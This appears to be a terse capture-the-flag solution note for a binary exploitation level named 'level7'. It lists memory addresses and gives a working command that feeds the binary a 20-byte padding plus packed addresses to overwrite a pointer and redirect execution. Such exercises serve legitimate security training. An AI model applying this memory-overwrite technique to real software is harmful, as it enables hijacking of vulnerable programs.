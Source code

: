 address "~~" 	= 0x8048703
adress c 	= 0x8049960


./level7 	$(python -c 'import struct; 
			print "A" * 20 + struct.pack("<I", 0x08049928)') 
		$(python -c 'import struct; 
			print struct.pack("<I", 0x080484f4)')
